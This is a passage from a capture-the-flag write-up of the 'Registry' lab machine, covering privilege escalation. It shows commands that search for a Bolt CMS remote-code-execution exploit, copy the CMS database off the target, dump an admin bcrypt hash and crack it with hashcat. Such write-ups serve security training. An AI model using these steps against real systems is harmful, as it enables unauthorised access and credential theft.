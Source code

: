 ## Privilege Escalation

After enumerating the box, an interesting file in the web directory _/var/www/html/backup.php_ is found:
```
<?php shell_exec("sudo restic backup -r rest:http://backup.registry.htb/bolt bolt");
```

The directory _bolt_ does exist and when browsing there, it shows a website built with [Bolt CMS](https://boltcms.io/).
```
http://10.10.10.159/bolt/
```

As that is a web service, the sudo command in the PHP script is probably ran by _www-data_.
So lets search for vulnerabilities for **Bolt CMS** to escalate privileges to _www-data_:
```
searchsploit bolt cms
```
```
Bolt CMS 3.6.6 - Cross-Site Request Forgery / Remote Code Execution
```

There is one **Remote Code Execution vulnerability** for version 3.6.6 and the _bolt/changelog.md_ shows the newest version as 3.6.4, which means that the vulnerability should work.
Unfortunately it needs valid authentication information, so that needs to be searched first.

A database is found in _bolt/app/database/bolt.db_ that I will upload to my local box to read the contents of it.
```
scp -i bolt_id_rsa bolt@10.10.10.159:/var/www/html/bolt/app/database/bolt.db .
```
```
file bolt.db

SQLite 3.x database
```

Getting contents out of the database:
```
sqlite3 bolt.db
```
```
sqlite> .dump

sqlite> .tables

sqlite> select * from bolt_users;
```
```
1|admin|$2y$10$e.ChUytg9SrL7AsboF2bX.wWKQ1LkS5Fi3/Z0yYD86.P5E9cpY7PK|bolt@registry.htb|2019-10-17 14:34:52|10.10.14.2|Admin|["files://shell.php"]|1||||0||["root","everyone"]
```

There is a **bcrypt hash** in there, so trying it to crack with **Hashcat**:
```
hashcat -m 3200 bolt_sqlite.hash /usr/share/wordlists/rockyou.txt
```
